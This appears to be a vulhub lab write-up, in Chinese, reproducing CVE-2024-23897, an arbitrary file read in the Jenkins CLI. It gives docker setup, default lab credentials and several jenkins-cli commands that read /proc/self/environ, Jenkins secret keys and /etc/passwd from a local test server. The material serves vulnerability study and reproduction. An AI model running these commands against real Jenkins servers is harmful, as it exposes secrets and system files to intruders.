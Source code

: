 Jenkins CLI 接口任意文件读取漏洞（CVE-2024-23897）
======================================

Jenkins是一个开源的自动化服务器。

Jenkins使用[args4j](https://github.com/kohsuke/args4j)来解析命令行输入，并支持通过HTTP、Websocket等协议远程传入命令行参数。args4j中用户可以通过`@`字符来加载任意文件，这导致攻击者可以通过该特性来读取服务器上的任意文件。

该漏洞影响Jenkins 2.441及以前的版本。

参考链接：

- <https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
- <https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>

漏洞环境
----

执行如下命令启动一个Jenkins server 2.441：

```php
docker compose up -d
```

服务启动后，访问`http://your-ip:8080/`即可查看到Jenkins登录页面，默认的管理员帐号密码为`admin`和`vulhub`。

漏洞复现
----

利用该漏洞可以直接使用官方提供的命令行客户端，在`http://localhost:8080/jnlpJars/jenkins-cli.jar`下载。

使用该工具读取目标服务器的`/proc/self/environ`文件，可以找到Jenkins的基础目录，`JENKINS_HOME=/var/jenkins_home`：

```php
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"
```

![](https://shs3.b.qianxin.com/butian_public/f12426631a593f2490eedac7c52cde272bb04076695ae.jpg)

然后，可在该目录下读取敏感文件，如`secrets.key` or `master.key`（匿名情况下，只能通过命令行的报错读取文件的第一行）：

```php
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```

![](https://shs3.b.qianxin.com/butian_public/f837378f1623e9eb3b45913f039ff64351fa7103c368f.jpg)

```php
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```

![](https://shs3.b.qianxin.com/butian_public/f3051599da0c46dc01359ec64bf6fc2a78325c68ed1f2.jpg)

因为开启了“匿名用户可读”选项，你也可以直接使用`connect-node`命令读取完整文件内容：

```php
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"
```

![](https://shs3.b.qianxin.com/butian_public/f305614eebe23bc5f3980925314462d3e132615b5eb39.jpg)